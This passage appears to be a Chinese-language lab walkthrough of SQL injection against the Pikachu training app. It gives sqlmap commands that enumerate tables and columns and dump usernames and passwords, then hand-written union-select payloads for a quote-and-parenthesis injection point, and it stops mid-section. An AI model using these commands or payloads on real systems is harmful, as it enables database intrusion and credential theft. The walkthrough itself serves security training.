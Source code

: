 

爆破表名：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_search.php?name=1&submit=%E6%90%9C%E7%B4%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" -D pikachu --tables
```



爆破列名：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_search.php?name=1&submit=%E6%90%9C%E7%B4%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" -D pikachu -T users --columns
```



爆破字段信息：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_search.php?name=1&submit=%E6%90%9C%E7%B4%A2" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" -D pikachu -T users -C "username,password" --dump
```



### xx型注入

闭合符号变成了`')`

![image-20250123073434981](../../_media/image-20250123073434981.png)

判断列数：

```
-1') order by 2#
```

爆破库名：

```
-1') union select 1,database()#
```

爆破表名：

```
-1') union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'#
```

爆破字段名：
